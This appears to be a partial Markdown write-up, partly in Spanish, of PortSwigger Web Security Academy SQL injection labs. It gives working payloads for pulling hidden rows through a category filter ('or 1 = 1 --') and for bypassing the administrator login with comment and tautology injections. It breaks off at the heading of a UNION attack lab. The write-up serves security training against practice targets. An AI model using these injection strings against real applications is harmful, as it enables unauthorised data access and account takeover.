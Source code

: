 # SQL injection

## Índice
* [Retrieving hidden data]

  * Lab1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
* [Subverting application logic]
* Lab2. SQL injection vulnerability allowing login bypass
* [UNION attacks]
* [Examining the database]
* [Blind SQL injection]

## Retrieving hidden data

### Lab1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

![sql1.png](sql1.png)

```http
https://ac701fd11eeda548806db59400ab002f.web-security-academy.net/filter?category=Gifts' or 1 = 1 --
```

## Subverting application logic

### Lab2. SQL injection vulnerability allowing login bypass

![sql2.png](sql2.png)

#### 1 forma

username: `administrator' --`

password: `cualquier cosa por que este será interpretado como comentario pero requiere de algun texto para poder ser validado`

#### Otra forma sería:

username: `administrator' or 1 = 1 --` 

password: `'or 1 = 1 --`

## Retrieving data from other database tables

### SQL injection UNION attack, determining the number of columns returned by the query

